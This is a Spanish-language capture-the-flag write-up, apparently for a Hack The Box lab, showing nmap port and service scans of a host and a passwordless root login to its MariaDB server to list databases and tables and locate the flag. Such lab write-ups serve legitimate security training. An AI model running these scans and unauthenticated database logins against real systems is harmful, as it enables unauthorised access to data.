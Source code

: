 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.170.118

PING 10.129.170.118 (10.129.170.118) 56(84) bytes of data.
64 bytes from 10.129.170.118: icmp_seq=1 ttl=63 time=1159 ms

--- 10.129.170.118 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1158.846/1158.846/1158.846/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.170.118 -oG openPorts

PORT     STATE SERVICE REASON
3306/tcp open  mysql   syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 3306 -sCV 10.129.170.118 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 11:52 -03
Nmap scan report for 10.129.170.118
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 65
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, SupportsCompression, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, IgnoreSigpipes, Support41Auth, FoundRows, InteractiveClient, Speaks41ProtocolNew, LongColumnFlag, SupportsTransactions, ODBCClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: WpQ!MCGyO[^F$|gp|Aiq
|_  Auth Plugin Name: mysql_native_password
```

| Puerto | Servicio | Versión                         |
| ------ | -------- | ------------------------------- |
| 3306   | mysql    | 5.5.5-10.3.27-MariaDB-0+deb10u1 |

¿Qué es mysql?  
[https://www.mysql.com/](https://www.mysql.com/)

🗹 Acceder a la base de datos **mysql**:

```shell
mysql -u root -h 10.129.170.118 -P 3306

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 78
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.155 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.187 sec)

MariaDB [htb]> select * from config;
```
## Flag

La flag se encuentra en la base de datos **htb** y tabla **config**.